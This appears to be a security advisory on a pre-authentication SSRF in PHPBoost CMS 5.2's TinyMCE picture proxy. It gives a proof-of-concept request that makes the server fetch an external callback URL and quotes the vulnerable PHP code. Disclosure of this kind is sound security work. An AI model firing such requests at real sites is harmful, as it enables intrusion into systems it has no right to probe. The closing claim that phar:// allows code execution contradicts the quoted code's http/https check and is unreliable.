


# C10100: PHPBoost CMS 5.2, SSRF (pre-auth)

[PHPBoost](https://www.phpboost.com/) is a French and free content management system (CMS), which exists since 2005, allowing you to easily create website.

The latest version of the CMS (v5.2) is accessible at the following URL:
- https://www.phpboost.com/download/

After installing the application and performing some `grep` we can easily identify the presence of an Server-side request forgery (SSRF).

## How ?

By making an HTTP GET request with the parameter `$_GET["url"]` to the page <span style="color:red">\<ROOT\>/TinyMCE/lib/TinyMCEPicturesProxy.php</span>, it is possible to exploit the vulnerability.

Request:
```
GET /projects/phpboost/TinyMCE/lib/TinyMCEPicturesProxy.php?url=http://d.38b76103fe85968c5a4e.d.XX.XXX.XX HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.64.1
Accept: */*
Connection: close


```




## Why ?

Within the following code:

File: <span style="color:red">\<ROOT\>/TinyMCE/lib/TinyMCEPicturesProxy.php</span>
```php
<?php

...

$validMimeTypes = array("image/gif", "image/jpeg", "image/png");

if (!isset($_GET["url"]) || !trim($_GET["url"])) {
    header("HTTP/1.0 500 Url parameter missing or empty.");
    return;
}

$scheme = parse_url($_GET["url"], PHP_URL_SCHEME);
if ($scheme === false || in_array($scheme, array("http", "https")) === false) {
    header("HTTP/1.0 500 Invalid protocol.");
    return;
}

$content = file_get_contents($_GET["url"]);
$info = getimagesizefromstring($content);

if ($info === false || in_array($info["mime"], $validMimeTypes) === false) {
    header("HTTP/1.0 500 Url doesn't seem to be a valid image.");
    return;
}

header('Content-Type:' . $info["mime"]);
echo $content;
?>
```

The part responsible for this vulnerability is `$content = file_get_contents($_GET["url"]);`. The impact of the vulnerability can be  more important as the choice of the wrapper is left to the attacker. He could therefore use the `phar://` wrapper to potentially perform a code execution.
